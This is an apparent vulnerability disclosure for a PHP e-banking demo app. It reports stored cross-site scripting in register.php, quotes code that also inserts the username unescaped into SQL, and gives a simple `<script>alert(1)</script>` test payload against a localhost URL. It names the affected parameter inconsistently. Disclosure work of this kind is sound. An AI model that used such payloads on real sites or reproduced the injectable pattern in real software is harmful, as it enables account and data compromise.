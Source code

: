 # Simple E-Banking System #

## supplier ##

https://code-projects.org/simple-e-banking-system-in-php-with-source-code/

## Vulnerability file ##

register.php

## describe ##

The `register.php` file contains an unrestricted cross-site scripting (XSS) vulnerability, leading to a stored XSS attack. Malicious attackers can exploit this vulnerability to obtain sensitive information from the client side.

### Code analysis ###

Line 32 in register.php

```php
		while($row = mysqli_fetch_array($query))
		{
			$table_user=$row['username'];
			if($username==$table_user)
			{
				$bool=false;
				Print '<script>alert("Username has already been taken!");</script>';
				Print '<script>window.location.assign("register.php");</script>';
			}
		}
		if($bool)
		{
			mysqli_query($conn, "INSERT INTO users (username,password) VALUES ('$username','$password')");
			Print '<script>alert("Successfully Registered! ");</script>';
			Print '<script>window.location.assign("index.php");</script>';
		}
```

## POC ##
For id parameter, the test payload is `<script>alert(1)</script>`
Visit this URL to trigger the cross-site scripting vulnerability.

```
http://127.0.0.1:8083/bank/eBank/register.php
```

### Rusult ###
![image](https://github.com/asd1238525/cve/blob/main/ade199b2-4566-487e-aa4c-39937df3cb4d.png)
![image](https://github.com/asd1238525/cve/blob/main/331d6e43-80c4-4d53-8b53-84970562c328.png)
For parameter "username":
![image](https://github.com/asd1238525/cve/blob/main/ae3482ff-12aa-437a-9e9d-d5468dced80e.png)
